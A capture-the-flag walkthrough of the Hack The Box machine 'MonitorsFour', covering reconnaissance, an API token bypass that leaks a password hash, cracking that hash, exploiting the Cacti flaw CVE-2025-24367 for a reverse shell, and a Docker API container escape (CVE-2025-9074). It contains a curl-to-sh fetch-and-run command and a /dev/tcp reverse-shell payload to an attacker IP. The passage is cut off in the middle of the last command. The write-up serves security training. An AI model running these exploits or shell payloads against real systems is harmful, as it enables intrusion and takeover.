





## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Directory Busting](#Directory-Busting)
    - [Getting Credentials Part 1](#Getting-Credentials-Part-1)
    - [Virtual Host Enumeration (VHOST)](#Virtual-Host-Enumeration-VHOST)
    - [Subdomain Enumeration](#Subdomain-Enumeration)
    - [Getting Credentials Part 2](#Getting-Credentials-Part-2)
    - [Cracking the Hash](#Cracking-the-Hash)
- [Admin Dashboard](#Admin-Dashboard)
- [Initial Access](#Initial-Access)
    - [CVE-2025-24367: Cacti RRDTool Post-Auth Argument Injection Remote Code Execution (RCE)](#CVE-2025-24367-Cacti-RRDTool-Post-Auth-Argument-Injection-Remote-Code-Execution-RCE)
- [user.txt](#usertxt)
- [Enumeration (www-data)](#Enumeration-www-data)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [CVE-2025-9074: Docker API Unauthenticated Access](#CVE-2025-9074-Docker-API-Unauthenticated-Access)
- [root.txt](#roottxt)

## Summary

The box starts with the `Enumeration` of a `Virtual Host (VHOST)` configuration that lead to a instance of `Cacti`. By `bypassing` the `Authentication` on the `Main Website` it is possible to retrieve two `Usernames` and a `Password Hash`.

With the use of `crackstation.net` the `Plaintext Password` can be retrieved and grants `Access` to the `Portal` on the `Main Website` which reveals the use and the `Version` of `Docker Desktop`.

By testing the `Username` and `Password` in various `combinations` access to `Cacti` could be achieved as well.

This enables `CVE-2025-24367` aka `Cacti RRDTool Post-Auth Argument Injection Remote Code Execution (RCE)` and leads to `Initial Access` on the box as the user `www-data` and to the `user.txt`.

For the `Privilege Escalation` to `root` and to `Escape` the `Container` the `CVE-2025-9074` aka `Docker API Unauthenticated Access` comes into play. This allows to spawn a `Privileged Container` which mounts the `Host Filesystem` and executes a `Reverse Shell` as `root`. 

After that the `root.txt` can be read withing the `Desktop` of `Administrator.`

## Reconnaissance

### Port Scanning

The initial `port scans` showed only port `22/TCP` and port `80/TCP` to be open as well as a `HTTP Redirect` to `http://monitorsfour.htb` which we added to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- 10.129.6.9 --min-rate 10000
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-06 20:04 CET
Nmap scan report for 10.129.6.9
Host is up (0.013s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 13.71 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.6.9         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-06 20:06 CET
Nmap scan report for 10.129.6.9
Host is up (0.013s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx
|_http-title: Did not follow redirect to http://monitorsfour.htb/
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.30 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.6.9      monitorsfour.ht
```

### Enumeration of Port 80/TCP

Right after `Nmap` finished it's job we started with the `Enumeration` of the `website` which offered us the option to `login` but not to `register` a new user.

- [http://monitorsfour.htb/](http://monitorsfour.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://monitorsfour.htb/
http://monitorsfour.htb/ [200 OK] Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[sales@monitorsfour.htb], HTTPServer[nginx], IP[10.129.6.9], JQuery, PHP[8.3.27], Script, Title[MonitorsFour - Networking Solutions], X-Powered-By[PHP/8.3.27], X-UA-Compatible[IE=edge], nginx
```





When we tried to `authenticate` we `intercepted` the `HTTP Request` using `Burp Suite` and noticed the `/api/v1/auth` endpoint. We kept that in the back of our heads for eventually later in the box.

```shell
POST /api/v1/auth HTTP/1.1
Host: monitorsfour.htb
Content-Length: 31
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://monitorsfour.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://monitorsfour.htb/login
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=ef1f15e36b1104b3ff57f1104f7c68cd
Connection: keep-alive

username=foobar&password=foobar
```

```shell
HTTP/1.1 302 Found
Server: nginx
Date: Sat, 06 Dec 2025 21:54:23 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/8.3.27
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /login
Content-Length: 0


```

### Directory Busting

The next logical step was to start `Directory Busting` using `dirsearch` which got a hit right away on a `.env` file.

```shell
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://monitorsfour.htb/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_monitorsfour.htb/__25-12-06_20-12-26.txt

Target: http://monitorsfour.htb/

[20:12:26] Starting: 
[20:12:27] 200 -   97B  - /.env                                             
[20:12:29] 403 -  548B  - /.ht_wsr.txt                                      
[20:12:29] 403 -  548B  - /.htaccess.bak1                                   
[20:12:29] 403 -  548B  - /.htaccess.orig                                   
[20:12:29] 403 -  548B  - /.htaccess.save                                   
[20:12:29] 403 -  548B  - /.htaccess.sample                                 
[20:12:29] 403 -  548B  - /.htaccess_extra                                  
[20:12:29] 403 -  548B  - /.htaccess_sc
[20:12:29] 403 -  548B  - /.htaccess_orig
[20:12:29] 403 -  548B  - /.htaccessBAK
[20:12:29] 403 -  548B  - /.htaccessOLD2
[20:12:29] 403 -  548B  - /.htaccessOLD                                     
[20:12:29] 403 -  548B  - /.html                                            
[20:12:29] 403 -  548B  - /.htm
[20:12:29] 403 -  548B  - /.htpasswd_test                                   
[20:12:29] 403 -  548B  - /.htpasswds
[20:12:29] 403 -  548B  - /.httr-oauth
[20:12:44] 200 -  367B  - /contact                                          
[20:12:44] 403 -  548B  - /controllers/                                     
[20:12:54] 200 -    4KB - /login                                            
[20:13:08] 301 -  162B  - /static  ->  http://monitorsfour.htb/static/      
[20:13:12] 200 -   35B  - /user                                             
[20:13:13] 301 -  162B  - /views  ->  http://monitorsfour.htb/views/        
                                                                             
Task Completed
```

### Getting Credentials Part 1

We `curled` the file and got a set of `credentials` for the `MariaDB` instance of the backend.

```shell
┌──(kali㉿kali)-[~]
└─$ curl http://monitorsfour.htb/.env
DB_HOST=mariadb
DB_PORT=3306
DB_NAME=monitorsfour_db
DB_USER=monitorsdbuser
DB_PASS=f37p2j8f4t0r
```

| Username       | Password     |
| -------------- | ------------ |
| monitorsdbuser | f37p2j8f4t0r |

### Virtual Host Enumeration (VHOST)

Since we got a `Domain` on our hands we started checking for `Virtual Host (VHOST)` configurations and found `cacti.monitorsfour.htb`. This one went straight into our `/etc/hosts` file as well.

```shell
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.monitorsfour.htb" -u http://monitorsfour.htb --fs 138

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://monitorsfour.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.monitorsfour.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 138
________________________________________________

cacti                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 28ms]
:: Progress: [151265/151265] :: Job [1/1] :: 862 req/sec :: Duration: [0:01:48] :: Errors: 0 ::
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.6.9      monitorsfour.htb
10.129.6.9      cacti.monitorsfour.htb
```

### Subdomain Enumeration

A quick look using `whatweb` and `accessing` the `website` gave us the `technology stack` as well as the `version` of `Cacti`.

- [http://cacti.monitorsfour.htb/](http://cacti.monitorsfour.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://cacti.monitorsfour.htb/      
http://cacti.monitorsfour.htb/ [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.129.6.9], PHP[8.3.27], RedirectLocation[/cacti], X-Powered-By[PHP/8.3.27], nginx
http://cacti.monitorsfour.htb/cacti [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.129.6.9], RedirectLocation[http://cacti.monitorsfour.htb/cacti/], Title[301 Moved Permanently], nginx
```



| Version |
| ------- |
| 1.2.28  |

### Getting Credentials Part 2

Since the found `credentials` didn't work on any `login` we found so far, we went back to the `API` and started `fuzzing` it. When we tried to access a `User ID` it said that a `token` was required. By setting the `value` to `0` we were able to bypass this check.

```shell
GET /api/v1/user?id=2&token=0 HTTP/1.1
Host: monitorsfour.htb
Content-Length: 2
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://monitorsfour.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://monitorsfour.htb/login
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=ef1f15e36b1104b3ff57f1104f7c68cd
Connection: keep-alive


```

This bypass `leaked` more `usernames` and a `password hash`.

```shell
HTTP/1.1 200 OK
Server: nginx
Date: Sat, 06 Dec 2025 21:56:40 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/8.3.27
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 279

{"id":2,"username":"admin","email":"admin@monitorsfour.htb","password":"56b32eb43e6f15395f6c46c1c9e1cd36","role":"super user","token":"8024b78f83f102da4f","name":"Marcus Higgins","position":"System Administrator","dob":"1978-04-26","start_date":"2021-01-12","salary":"320800.00"}
```

| Username       | Hash                             |
| -------------- | -------------------------------- |
| admin          | 56b32eb43e6f15395f6c46c1c9e1cd36 |
| Marcus Higgins |                                  |

```shell
┌──(kali㉿kali)-[~]
└─$ curl 'http://monitorsfour.htb/api/v1/user?id=2&token=0'
{"id":2,"username":"admin","email":"admin@monitorsfour.htb","password":"56b32eb43e6f15395f6c46c1c9e1cd36","role":"super user","token":"8024b78f83f102da4f","name":"Marcus Higgins","position":"System Administrator","dob":"1978-04-26","start_date":"2021-01-12","salary":"320800.00"}
```

### Cracking the Hash

The quick win was to put throw the `hash` into `crackstation.net` which returned the `plaintext password` of `admin`.

- [https://crackstation.net/](https://crackstation.net/)

| Hash                             | Username | Password   |
| -------------------------------- | -------- | ---------- |
| 56b32eb43e6f15395f6c46c1c9e1cd36 | admin    | wonderful1 |

## Admin Dashboard

With the `password` of `admin` we were able to `login` on the `main website`.

- [http://monitorsfour.htb/login](http://monitorsfour.htb/login)

| Username | Password   |
| -------- | ---------- |
| admin    | wonderful1 |



In the `Changelog` we found a hint about `Docker Desktop` and it's corresponding `version`. 



```shell
To enhance our product delivery, we have migrated to Windows and ported websites to Docker via Docker Desktop 4.44.2.
```

The first hit in our research brought up `CVE-2025-9074` aka `Docker API Unauthenticated Access`. Since we could leverage that in that moment we put it into our notes for later use if needed.

- [https://thecyberexpress.com/critical-cve-2025-9074-docker-vulnerability/](https://thecyberexpress.com/critical-cve-2025-9074-docker-vulnerability/)

## Initial Access

### CVE-2025-24367: Cacti RRDTool Post-Auth Argument Injection Remote Code Execution (RCE)

We tested both new `usernames` on `Cacti` and figured out that the combination of `marcus:wonderful1` worked for it and we were able to successfully login to `Cacti`.

With this access we finally could look for recent `Proof of Concept (PoC) Exploits` related to the `version` of the `instance` of `Cacti`.

We found `CVE-2025-24367` aka `Cacti RRDTool Post-Auth Argument Injection Remote Code Execution (RCE)` to be very promising.

- [https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC](https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC)

After downloading and firing the `exploit` we got a `callback` as `www-data` and therefore achieved `Initial Access` on the box.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/MonitorsFour/files]
└─$ git clone https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC
Cloning into 'CVE-2025-24367-Cacti-PoC'...
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (6/6), 5.35 KiB | 2.68 MiB/s, done.
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/MonitorsFour/files/CVE-2025-24367-Cacti-PoC]
└─$ python3 exploit.py -u marcus -p wonderful1 -i 10.10.16.21 -l 9001 -url http://cacti.monitorsfour.htb
[+] Cacti Instance Found!
[+] Serving HTTP on port 80
[+] Login Successful!
[+] Got graph ID: 226
[i] Created PHP filename: QOftE.php
[+] Got payload: /bash
[i] Created PHP filename: aYjFj.php
[+] Hit timeout, looks good for shell, check your listener!
[+] Stopped HTTP server on port 80
```

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001                                                                                        
listening on [any] 9001 ...
connect to [10.10.16.21] from (UNKNOWN) [10.129.6.9] 51067
bash: cannot set terminal process group (7): Inappropriate ioctl for device
bash: no job control in this shell
www-data@821fbd6a43fa:~/html/cacti$ 
```

## user.txt

Even as `www-data` we were able to to read the `user.txt`. We grabbed it and moved on.

```shell
www-data@821fbd6a43fa:/home/marcus$ cat user.txt
cat user.txt
b911da64eb49936f3ae294a9743935e5
```

## Enumeration (www-data)

Now the basic `Enumeration` of our current user started. We noticed that we didn't had any special permissions and we also were running inside a `Container`.

```shell
www-data@821fbd6a43fa:~/html/cacti$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The user `marcus` was present on the system and a eventual `privilege escalation vector`.

```shell
www-data@821fbd6a43fa:~/html/cacti$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
marcus:x:1000:1000::/home/marcus:/bin/bash
```

On the `port-side` we didn't noticed anything fancy either.

```shell
www-data@821fbd6a43fa:~/html/cacti$ ss -tulpn
ss -tulpn
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                                             
udp   UNCONN 0      0         127.0.0.11:55970      0.0.0.0:*                                                       
tcp   LISTEN 0      4096      127.0.0.11:36311      0.0.0.0:*                                                       
tcp   LISTEN 0      511          0.0.0.0:80         0.0.0.0:*    users:(("nginx",pid=12,fd=9),("nginx",pid=11,fd=9))
tcp   LISTEN 0      4096               *:9000             *:*
```

Since we knew we had to deal with a `Container`, we fired up `deepce` to see which `capabilities` or `misconfigurations` could help us either `escalate` our `privileges` or `escape` the `container` onto the `host system`.

```shell
www-data@821fbd6a43fa:~/html/cacti$ ls -la /
ls -la /
total 6736
drwxr-xr-x   1 root root    4096 Dec  6 20:51 .
drwxr-xr-x   1 root root    4096 Dec  6 20:51 ..
-rwxr-xr-x   1 root root       0 Nov 10 17:04 .dockerenv
lrwxrwxrwx   1 root root       7 Aug 24 16:20 bin -> usr/bin
drwxr-xr-x   2 root root    4096 Aug 24 16:20 boot
drwxr-xr-x   5 root root     340 Dec  6 19:04 dev
drwxr-xr-x   1 root root    4096 Nov 10 17:04 etc
drwxr-xr-x   1 root root    4096 Nov 10 16:15 home
lrwxrwxrwx   1 root root       7 Aug 24 16:20 lib -> usr/lib
lrwxrwxrwx   1 root root       9 Aug 24 16:20 lib64 -> usr/lib64
drwxr-xr-x   2 root root    4096 Nov  3 20:44 media
drwxr-xr-x   2 root root    4096 Nov  3 20:44 mnt
drwxr-xr-x   2 root root    4096 Nov  3 20:44 opt
dr-xr-xr-x 190 root root       0 Dec  6 19:04 proc
drwx------   2 root root    4096 Nov  3 20:44 root
drwxr-xr-x   1 root root    4096 Nov 10 17:05 run
lrwxrwxrwx   1 root root       8 Aug 24 16:20 sbin -> usr/sbin
drwxr-xr-x   2 root root    4096 Nov  3 20:44 srv
-rwxr-xr-x   1 root root     113 Sep 13 06:13 start.sh
dr-xr-xr-x  13 root root       0 Dec  6 19:04 sys
drwxrwxrwt   1 root root 6828032 Dec  6 20:41 tmp
drwxr-xr-x   1 root root    4096 Nov  3 20:44 usr
drwxr-xr-x   1 root root    4096 Nov  4 04:06 var
```

- [https://github.com/stealthcopter/deepce](https://github.com/stealthcopter/deepce)

```shell
www-data@821fbd6a43fa:~/html/cacti$ curl 10.10.16.21/deepce.sh|sh
curl 10.10.16.21/deepce.sh|sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 39417  100 39417    0     0   280k      0 --:--:-- --:--:-- --:--:--  283k

                      ##         .
                ## ## ##        ==                                               
             ## ## ## ##       ===                                               
         /"""""""""""""""""\___/ ===                                             
    ~~~ {~~ ~~~~ ~~~ ~~~~ ~~~ ~ /  ===- ~~~                                      
         \______ X           __/
           \    \         __/                                                    
            \____\_______/                                                                                                                                                                                                                         
     ____/ /__  ___  ____  ________
    / __  / _ \/ _ \/ __ \/ ___/ _ \   ENUMERATE
   / /_/ /  __/  __/ /_/ / (__/  __/  ESCALATE
   \__,_/\___/\___/ .___/\___/\___/  ESCAPE
                 /_/

 Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)
 by stealthcopter

==========================================( Colors )==========================================
[+] Exploit Test ............ Exploitable - Check this out
[+] Basic Test .............. Positive Result
[+] Another Test ............ Error running check
[+] Negative Test ........... No
[+] Multi line test ......... Yes

Command output spanning multiple lines

Tips will look like this and often contains links with additional info. You can usually ctrl+click links in modern terminal to open in a browser window

See https://stealthcopter.github.io/deepce                                       

===================================( Enumerating Platform )===================================
[+] Inside Container ........ Yes
[+] Container Platform ...... docker
[+] Container tools ......... None
[+] User .................... www-data
[+] Groups .................. www-data
[+] Sudo .................... sudo not found
[+] Docker Executable ....... Not Found
[+] Docker Sock ............. Not Found
[+] Docker Version .......... Version Unknown
==================================( Enumerating Container )===================================
[+] Container ID ............ 821fbd6a43fa
[+] Container Full ID ....... /
[+] Container Name .......... Could not get container name through reverse DNS
[+] Container IP ............ 172.18.0.3 
[+] DNS Server(s) ........... 127.0.0.11 
[+] Host IP ................. 172.18.0.1
[+] Operating System ........ GNU/Linux
[+] Kernel .................. 6.6.87.2-microsoft-standard-WSL2
[+] Arch .................... x86_64
[+] CPU ..................... AMD EPYC 7513 32-Core Processor
[+] Useful tools installed .. Yes
/usr/bin/curl
/usr/bin/gcc                                                                     
/usr/bin/hostname                                                               
[+] Dangerous Capabilities .. Yes
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Current IAB: !cap_dac_read_search,!cap_linux_immutable,!cap_net_broadcast,!cap_net_admin,!cap_ipc_lock,!cap_ipc_owner,!cap_sys_module,!cap_sys_rawio,!cap_sys_ptrace,!cap_sys_pacct,!cap_sys_admin,!cap_sys_boot,!cap_sys_nice,!cap_sys_resource,!cap_sys_time,!cap_sys_tty_config,!cap_lease,!cap_audit_control,!cap_mac_override,!cap_mac_admin,!cap_syslog,!cap_wake_alarm,!cap_block_suspend,!cap_audit_read,!cap_perfmon,!cap_bpf,!cap_checkpoint_restore
[+] SSHD Service ............ Unknown (ps not installed)
[+] Privileged Mode ......... Unknown
====================================( Enumerating Mounts )====================================
[+] Docker sock mounted ....... No
[+] Other mounts .............. Yes
/data/docker/containers/821fbd6a43fa182c5c884990fe74c22a80c1ec36db6adee758fdfa69bd4675b1/resolv.conf /etc/resolv.conf rw,relatime - ext4 /dev/sde rw
/data/docker/containers/821fbd6a43fa182c5c884990fe74c22a80c1ec36db6adee758fdfa69bd4675b1/hostname /etc/hostname rw,relatime - ext4 /dev/sde rw                    
/data/docker/containers/821fbd6a43fa182c5c884990fe74c22a80c1ec36db6adee758fdfa69bd4675b1/hosts /etc/hosts rw,relatime - ext4 /dev/sde rw                          
[+] Possible host usernames ...  
====================================( Interesting Files )=====================================
[+] Interesting environment variables ... No
[+] Any common entrypoint files ......... Yes
-rwxr-xr-x 1 root root 113 Sep 13 06:13 /start.sh
[+] Interesting files in root ........... Yes
/start.sh
[+] Passwords in common files ........... No
[+] Home directories .................... total 4.0K
drwxr-xr-x 1 marcus marcus 4.0K Dec  6 19:06 marcus                              
[+] Hashes in shadow file ............... Not readable
[+] Searching for app dirs .............. 
==================================( Enumerating Containers )==================================
By default containers can communicate with other containers on the same network and the 
host machine, this can be used to enumerate further                              
Could not ping sweep, requires nmap or ping to be executable
==============================================================================================
```

In the output of `deepce` we noticed that the `Container` was running within the `Windows Subsystem for Linux (WSL)`.

```shell
<--- CUT FOR BREVITY --->
[+] Kernel .................. 6.6.87.2-microsoft-standard-WSL2
<--- CUT FOR BREVITY --->
```

We also found even more credentials but as we would figure our later, they were pretty much useless and lead to nothing helpful.

```shell
www-data@821fbd6a43fa:~/html/cacti/include$ cat cat config.php
<--- CUT FOR BREVITY --->

$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'mariadb';
$database_username = 'cactidbuser';
$database_password = '7pyrf6ly8qx4';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;

<--- CUT FOR BREVITY --->
```

| Password     |
| ------------ |
| 7pyrf6ly8qx4 |

## Privilege Escalation to root

### CVE-2025-9074: Docker API Unauthenticated Access

By getting back to the `CVE` we found earlier in the box we tried a `PoC` which would spawn a `Privileged Container` using the `Docker API` without `authentication` to `mount` the `host filesystem`.

- [https://pvotal.tech/breaking-dockers-isolation-using-docker-cve-2025-9074/](https://pvotal.tech/breaking-dockers-isolation-using-docker-cve-2025-9074/)
- [https://blog.qwertysecurity.com/Articles/blog3.html](https://blog.qwertysecurity.com/Articles/blog3.html)

Our first check looked good so we decided `execute` a `payload` that gave us a shell as `root` and `mounted` the `host filesystem`.

```shell
www-data@821fbd6a43fa:~/html/cacti$ curl -s http://192.168.65.7:2375/_ping
curl -s http://192.168.65.7:2375/_ping
OK
```

```shell
curl -s -X POST http://192.168.65.7:2375/containers/create \
  -H "Content-Type: application/json" \
  -d '{
        "Image":"docker_setup-nginx-php:latest",
        "Cmd":["bash","-c","bash -i >& /dev/tcp/10.10.16.21/6969 0>&1"],
        "HostConfig":{
          "Binds":["/mnt/host/c:/host_root"]
        }
      }' \
